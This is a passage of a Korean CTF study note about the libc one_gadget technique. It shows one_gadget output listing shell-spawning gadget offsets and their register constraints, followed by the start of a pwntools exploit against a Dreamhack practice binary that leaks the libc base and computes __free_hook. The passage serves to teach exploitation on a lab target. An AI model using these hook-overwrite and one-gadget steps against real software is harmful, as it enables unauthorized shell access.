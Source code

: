 ```

p.interactive()

```

# 2. 원가젯(one-gadget)

기존에는 여러 개의 가젯을 조합해서 `ROP Chain`을 구성한 후 익스플로잇을 진행하지만, `libc`에는 하나의 단일 가젯만으로도 `Shell`을 실행할 수 있는 매우 강력한 `원가젯`이 존재함

해당 [링크](https://github.com/david942j/one_gadget)를 통해 HITCON, 217 CTF팀의 멤버인 david942j가 만든 `one_gadget` 도구를 사용할 수 있음

하지만, 이 원가젯은 `Glibc` 버전마다 다르게 존재하며, 사용하기 위한 제약 조건도 모두 다르기 때문에 (일반적으로 버전이 높을수록 제약 증가) 이를 파악하여 사전에 조건을 만족하도록 조작해주어야 함

### 장점

원가젯은 하나의 단일 가젯만으로도 쉘을 실행할 수 있다는 큰 장점이 존재함과 동시에, **함수에 인자를 전달하기 어려울 때 유용하게 활용될 수 있음**

예를 들어, 앞에서 Hook Overwrite를 통해 `__free_hook` 을 조작한 후 `free("/bin/sh")`을 호출해야 하는데, 

`free`에 작은 정수 밖에 입력할 수 밖에 없는 상황이라면, `"/bin/sh"` 이라는 문자열의 주소를 인자로 전달하는 것은 매우 어려움

따라서 이럴 때 제약 조건을 만족하는 원 가젯이 존재한다면, 이를 호출하여 바로 쉘을 획득할 수 있음 : **`constraints`가 제약 조건을 나타내는 부분**

```
$ one_gadget ./libc-2.27.so
0x4f3d5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f432 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a41c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## 원가젯을 활용한 익스플로잇 코드

원가젯을 만족하기 위해서는 레지스터 값이 조건을 만족해야 하는데, 현재 바이너리에서는 오프셋이 `0x4f432` 원가젯만 조건이 맞기 때문에 해당 원가젯을 사용할 수 있음

원가젯의 조건을 만족시키기 위해 레지스터 값을 수정하거나 변조해서 맞추는 방법도 있음

그리고, 원가젯을 `__free_hook` 에 대입하고 나면, 인자도 `"/bin/sh"`로 맞춰지기 때문에 `free`에 전달할 인자는 아무 값이나 넣어도 됨

```
#!/usr/bin/env python3
# Name: fho_og.py

from pwn import *

p = remote("host3.dreamhack.games", 8807)
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

# [1] Leak libc base
buf = b'A'*0x48
p.sendafter('Buf: ', buf)
p.recvuntil(buf)
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
libc_base = libc_start_main_xx - libc.libc_start_main_return
free_hook = libc_base + libc.symbols['__free_hook']
```
